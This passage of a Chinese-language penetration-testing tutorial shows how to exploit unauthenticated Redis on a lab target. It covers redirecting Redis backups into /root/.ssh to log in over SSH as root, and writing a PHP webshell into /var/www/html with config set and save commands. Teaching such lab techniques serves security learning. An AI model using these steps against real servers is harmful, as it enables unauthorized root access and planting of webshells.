 远程登录到靶机 redis 数据库，并使用`CONFIG GET dir`命令得到 redis 备份的路径：

[![](assets/1702372985-d778cf2b0db9a6f2c836c572dc610942.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/15.png)

更改 redis 备份路径为 ssh 公钥存放目录（一般默认为`/root/.ssh`）：

[![](assets/1702372985-9f6b483f68d61220babbee4a78fb2df2.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/16.png)

此时通过 ssh 连接到靶机

```plain
ssh -i id_rsa root@<ip>
```

[![](assets/1702372985-63fc3f261446f195d201647cadea8d7c.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/17.png)

### [](#4-%E5%88%A9%E7%94%A8redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E5%86%99-Webshell "4.利用redis 未授权写 Webshell")4.利用 redis 未授权写 Webshell[](#4-%E5%88%A9%E7%94%A8redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E5%86%99-Webshell)

利用前提：

-   靶机 redis 链接未授权，在攻击机上能用`redis-cli`连上
-   当 redis 权限不高时，并且服务器开着 web 服务，在 redis 有 web 目录写权限时，可以尝试往 web 路径写 webshell

此时我们需要知道目标的 web 路径，示例写入的是 apache 的默认安装路径

```plain
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php phpinfo();?>"
save
```
